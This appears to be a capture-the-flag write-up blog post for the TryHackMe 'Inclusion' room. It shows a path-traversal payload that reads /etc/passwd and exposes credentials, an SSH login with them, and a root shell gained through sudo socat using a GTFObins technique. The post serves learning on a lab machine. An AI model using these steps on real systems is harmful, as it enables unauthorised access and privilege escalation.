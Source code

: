 ```yaml
---
layout: post
title: "THM Writeup - Inclusion"
subtitle: "Try Hack Me - LFI"
date: 2021-07-14 
background: '/img/bg-write.jpg'
---
```


# THM ![Try Hack Me](https://img.shields.io/badge/-TryHackMe-black?style=flat-square&logo=tryhackme)

![1]

## Room name: Inclusion
<https://tryhackme.com/room/inclusion>


### Description: 
A beginner level LFI challenge.

### OS: ![Linux](https://img.shields.io/badge/Linux-black?style=flat-square&logo=linux)


Knowing that the challenge in this room is to exploit Local File Inclusion, we can begin by navigating to the website at the IP address on port 80.

Here we see a basic webpage sharing information about LFI and RFI exploitation. Clicking through some of the articles and observing the changes to the URL strings, we notice the following pattern.

```
http://127.0.0.1/article?name=lfiattack
```
The information after the "?" indicates a query string. We can use this to test for LFI exposure. To start, we use a basic search for common files that can give us the information we are seeing. These typically include:

> /etc/passwd<br>
> /etc/hosts<br>
> /etc/exports<br>

Starting with the following string gives us results immediately:

```html
http://127.0.0.1/article?name=../../../../etc/passwd
```
Interestingly enough, we see the results from /etc/passwd directly within the page and can quickly identify a username and password pair in cleartext.

```
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#f**********t:r**********d <-------
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
```




## User Flag:
Using these details, we attempt to SSH into the server hosting the webpage and successfully connect. 

```bash
# ssh f*****t@127.0.0.1
f******t@inclusion:~$ 
```

We then list the directory contents and quickly find the user flag:
```bash
f*****t@inclusion:~$ ls
articles  user.txt
f*****t@inclusion:~$ cat user.txt 
6****************9
```

## Root Flag
Now that we have a user shell we can review what, if any SUDO permissions are available for use. To do so we run *sudo -l* to enumerate. We see that user f******t may run socat as SUDO. We reference GTFObins for an appropriate bypass. <https://gtfobins.github.io/gtfobins/socat/> 
```bash
User f*****t may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
This being the case, we can attempt to run the binary and receive a root shell.

```bash
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
```
The process is successful however our root shell is missing a prompt. Since we are simply extracting the data from the root flag and know its, location, we dont necessarily need to stabilize. Moving on we identify the root.txt flag located in /root/root.txt and expose its contents.
```
whoami
root
cat /root/root.txt
4********9
```

## Takeaways

1. Local File Inclusion
2. ssh login with located credentials
3. sudo enumeration and exploitation of privilege using GTFObins

[1]:/img/roomicons/lfi.png
